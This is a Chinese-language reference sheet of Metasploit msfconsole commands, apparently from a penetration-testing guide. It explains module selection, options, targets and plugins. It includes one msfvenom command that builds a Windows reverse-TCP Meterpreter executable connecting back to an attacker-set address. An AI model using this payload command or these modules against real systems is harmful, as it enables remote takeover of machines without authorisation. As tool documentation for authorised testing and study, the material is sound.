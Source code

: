 +   `msf > use [module name]`: 选择一个模块并使用它。例如，使用 `dos/windows/smb/ms09_001_write`。

+   `msf > show`: 这将显示 Metasploit 中某个特定项目的信息。

+   `msf > show`: 在 `msfconsole` 提示符下输入 `show` 将显示 Metasploit 中的每个模块。

+   `msf > show options`: 这将显示模块的选项。

+   `msf > show auxiliary`: 这将显示 Metasploit 中所有可用的辅助模块的列表。

+   `msf > show exploits`: 这将列出框架中所有的漏洞利用。

+   `msf > show payloads`: 这将显示所有不同的有效载荷（无论是 Metasploit 中的，还是同一模块中的）。

+   `msf > show targets`: 这将显示在漏洞模块的上下文中支持哪些目标。

+   `msf > show advanced`: 如果你想进一步调整漏洞利用，使用此命令查看更多高级选项。

+   `msf > show encoders`: 这将显示 msfconsole 中可用的编码器列表。

+   `msf > show nops`: 这将显示 Metasploit 提供的 NOP 生成器列表。

+   `msf > info [module name]`: 这将提供关于某个模块的详细信息。例如，`info exploit/windows/http/apache_chunked`。

+   `msf > check`: 这将验证目标是否存在漏洞，但你需要先设置选项。

+   `msf > set`: `set` 命令允许你为当前正在使用的模块配置框架选项和参数。例如，`set RHOST 172.16.194.134`。

+   `msf > setg`: 这将设置 `msfconsole` 中的全局变量。例如，`setg LHOST 10.0.0.100`。

+   `msf > unset`: `unset` 命令删除先前通过 `set` 配置的参数。你可以通过 `unset all` 删除所有已分配的变量。例如，`unset THREADS`。

+   `msf > save`: `save` 命令将保存当前的环境和设置。

+   `msf > jobs [option]`: `jobs` 命令提供列出和终止这些任务的功能。使用 `jobs -h` 命令获取可用选项。例如，`jobs -l`。

# 杂项

+   `msf > load [plugin name]`: `load` 命令从 Metasploit 的插件目录加载插件。参数通过 `key=val` 的形式传递给 shell。例如，`load pcap_log`。

+   `msf > unload [plugin name]`: `unload` 命令卸载先前加载的插件并移除任何扩展命令。例如，`unload pcap_log`。

+   `msf > loadpath [module path]`: `loadpath` 命令将加载一个第三方模块路径，以便你可以将 Metasploit 指向你的 0-day 漏洞、编码器、有效载荷等。例如，`loadpath exploit/windows/test/test_module`。

+   `msf > connect [IP]`: 这与 `netcat` 类似，适用于横幅抓取和与服务交互。例如，`connect 192.168.1.10`。

# msfvenom

`msfvenom` 可以用于生成 Windows 操作系统的反向 TCP Meterpreter 有效载荷，例如：

```
$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
```

+   **平台**: 以下是我们可以使用的平台值：

`Cisco` 或 `cisco`，`OSX` 或 `osx`，`Solaris` 或 `solaris`，`BSD` 或 `bsd`，`OpenBSD` 或 `openbsd`，`hardware`，`Firefox` 或 `firefox`，`BSDi` 或 `bsdi`，`NetBSD` 或 `netbsd`，`NodeJS` 或 `nodejs`，`FreeBSD` 或 `freebsd`，`Python` 或 `python`，`AIX` 或 `aix`，`JavaScript` 或 `javascript`，`HPUX` 或 `hpux`，`PHP` 或 `php`，`Irix` 或 `irix`，`Unix` 或 `unix`，`Linux` 或 `linux`，`Ruby` 或 `ruby`，`Java` 或 `java`，`Android` 或 `android`，`Netware` 或 `netware`，`Windows` 或 `windows`，`mainframe`，`multi`。
